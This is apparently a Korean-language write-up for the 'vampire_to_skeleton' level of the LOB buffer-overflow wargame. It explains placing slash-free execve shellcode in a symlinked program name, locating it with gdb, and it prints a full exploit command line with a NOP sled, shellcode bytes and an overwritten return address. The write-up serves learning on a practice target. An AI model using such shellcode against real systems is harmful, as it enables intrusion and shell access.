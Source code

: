 #week2  
##lob  
###vampire_to_skeleton  
skeleton.c를 분석해보면 buffer와 argv 모두 초기화하는 것을 파악 가능하다.  
멘붕와서 검색했더니 이름 부분에 넣는다고 한다.  
skeleton을 copy 해준 후 ln-s을 135자로 이름을 만들어준다.  
그후 gdb를 돌려 argv의 초기화가 끝난 시점인 main+283에 브레이크포인트를 걸어준다.  
다음 이름은 위쪽에 저장되는 특성에 따라 0xbfffffff 주변을 x/100s로 이름이 어디 저장되는지 찾는다.    
0xbfffff69에 저장되는 것을 파악했다.  
이제 0x2f(/)가 들어있지 않은 쉘코드를 아래와 같이 포함시켜 bash를 확인한다.   
아래에는 경로를 생각해서 20정도를 더해준것을 확인가능하다.  
 ./$(python -c 'print("\x90"*100+"\x31\xc0\x50\xbe\x2e\x72\x67\x81\xc6\x01\x01  
 \x01\x01\x56\xbf\x2e\x62\x69\x6e\x47\x57\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"+" "+"\x90"*44+"\x7d\xff\xff\xbf")')
